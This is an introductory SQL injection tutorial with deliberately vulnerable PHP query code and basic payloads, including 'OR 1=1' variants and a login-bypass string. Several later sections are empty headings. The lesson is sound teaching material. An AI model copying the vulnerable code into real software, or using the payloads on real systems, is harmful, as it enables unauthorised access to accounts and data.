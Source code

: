# SQL INJECTION - LESSON 0

What is SQL Injection?
SQL Injection (SQLi) is a type of code injection technique, used to attack data-driven applications, that makes it possible to execute malicious SQL statements.

First public discussion about SQL injection appeared in 1998 on [Phrack Magazine](http://phrack.org/issues/54/8.html#article).

SQLi exploits a security vulnerability in application's software, based on weak
or absence of validation of the user inputs.

Using an SQLi allows attackers to spoof identity, tamper existing data, dump,
edit and delete all data, execute administration operation on DBMS and in
particular circumstances allows an attacker to obtain LFI or RCE on a system.

Usually an SQLi attack happens on Web applications but the only requirement
is that an input controlled by the end-user (like a search input form, a login
form, etc.) is used to create a query that will be executed on the DBMS.

## ' OR 1=1

The first basic way to check if an application is vulnerable to SQLi is to try
to break query syntax.

#### Example 0.1
Given this PHP code:
```php

  $sql = "SELECT * FROM pages WHERE id = " . $_GET['id'];
  $result = $conn->query($sql);
  while($row = $result->fetch_array()){
    print_r($row);
  }

```

If we use `$_GET['id'] = 1` we will get the page with id `1` from the DB, but
what happens if we pass `1'` as value?
```
  #1064 - You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''
```

BOOM! We broke the syntax and got an error. But What happened?
Let's see the query that is created :
```
  SELECT * FROM pages WHERE id = 1'
```

The DBMS was expecting an ending quote ' that is not present and produces a
syntax error.

This is useful to understand that what we are injecting in the query was
interpreted as part of the SQL statement and not just as value that `id` should
have.

Therefore we can try to insert more complex SQL statements to see what happens:
Let's try with `$_GET[id] = 1 OR 1=1`, the query produced will be:
```
  SELECT * FROM pages WHERE id = 1 OR 1=1
```

BOOM! The resulting query is legal and we will get all the pages from the DB.

The technique is basically the same if the argument is surrounded by quotes,
we just have to break the string in SQL, inject our code and be careful that the
syntax is legal.

#### Example 0.2
Given this PHP code:

We have just introduced the surrounding single quotes `'` in the SQL
statement (the double quotes `"` are the PHP string delimiters).
```php

  $sql = "SELECT * FROM pages WHERE id = '" . $_GET['id'] . "'";
  $result = $conn->query($sql);
  while($row = $result->fetch_array()){
    print_r($row);
  }

```

Using `$_GET[id] = 1`, the query produced will be:
```
  SELECT * FROM pages WHERE id = '1'
```

If we use `$_GET[id] = 1' OR 1=1`, the query produced will be:
```
  SELECT * FROM pages WHERE id = '1' OR 1=1'
```
and we will get an SQL syntax error (and ending quote is missing).
But we can inject multiple quotes :)

Let's try with `$_GET[id] = 1' OR '1'='1` (please note the missing ending quote).
It will produce:
```
  SELECT * FROM pages WHERE id = '1' OR '1'='1'
```

BOOM! The resulting query is legal and we will get all the pages from the DB.

## LOGIN BYPASS
The technique described in the previous chapter can be useful to bypass login
screens.

#### Example 0.3
Given this PHP code:
```php

  $sql = "SELECT * FROM users
          WHERE username = '" . $_GET['username'] . "'
          AND password = '" . $_GET['password'] . "'";
  $result = mysqli_query($conn, $sql);
  $row_count = mysqli_num_rows($result);
  if ($row_count > 0) {
    echo 'Authorized';
  } else {
    echo 'Not authorized';
  }

```
If we use `$_GET['username'] = admin` and `$_GET['password'] = password` the
resulting query will be:
```
  SELECT * FROM users WHERE username = 'admin' AND password = 'password'
```
The code will check if the resulting number of rows is greater than 1, so we
need a way to alter this condition.

We will try to use `$_GET['password'] = password' OR '1'='1` for the user
`admin`.
The query produced will be:
```
  SELECT * FROM users WHERE username = 'admin' AND password = 'password' OR '1' = '1'
```

BOOM! We altered the query adding a condition that is always `true`.
Because of that the resulting number of rows will be greater than `1` and we
can access to the authenticated part of code.


### COMMENTS

### NESTED QUERIES

### STACKED QUERIES


### REAL LIFE EXAMPLES

### UNSAFE EXAMPLES

### SAFE EXAMPLES

### TOOL
